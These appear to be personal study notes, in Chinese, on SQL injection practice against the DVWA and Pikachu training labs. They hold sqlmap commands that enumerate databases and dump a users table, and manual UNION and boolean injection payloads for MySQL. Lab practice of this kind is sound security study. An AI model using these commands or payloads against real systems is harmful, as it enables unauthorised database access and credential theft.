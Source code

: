 # dvwa SQL注入

sqlmap

[是否有漏洞]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low"

[获取数据库]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" --dbs

[获取指定数据库表]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" -D dvwa --tables

[获取指定数据库表列]
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" -D dvwa -T users --columns
python sqlmap.py -u "http://192.168.234.5/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="PHPSESSID=dm5oqturp0hpbinoaq3ujmoh35; security=low" -D dvwa -T users --dump

# pikachu靶场

## 信息收集

判断是否有漏洞
```
' -- 有报错代表有漏洞
1' and 1=1#
1' and 1=2#
```

判断一共查询的列数
```
-- 通过对结果列排序判断，一直到尝试到报错
1' order by 1#
1' order by 2#

-- 通过union判断结果有几列
' union select 1,2 from dual#
```

查询数据库的版本、数据库名字等信息
```
' union select version(),DATABASE() from dual#
version() -- 当前数据库的版本
database() -- 当前数据库的名字
user() --当前 MySQL 会话的用户，如 root@192.168.1.100
current_user()  
@@hostname -- 服务器的主机名
@@port  -- MySQL 服务器监听的端口号
@@socket -- MySQL 服务器使用的 socket 文件名（用于 Unix/Linux 系统）
@@datadir -- MySQL 数据目录的路径
@@basedir -- MySQL 安装的基目录路径
@@sql_mode -- 当前会话的 SQL 模式
@@max_connections -- 服务器允许的最大连接数
@@time_zone -- 当前的时间区域设置
@@version_comment -- MySQL 服务器的版本注释（通常是分发信息）
@@version_compile_os -- MySQL 服务器编译时的操作系统名称
```
可以用过`show global variables`来查看mysql的变量。
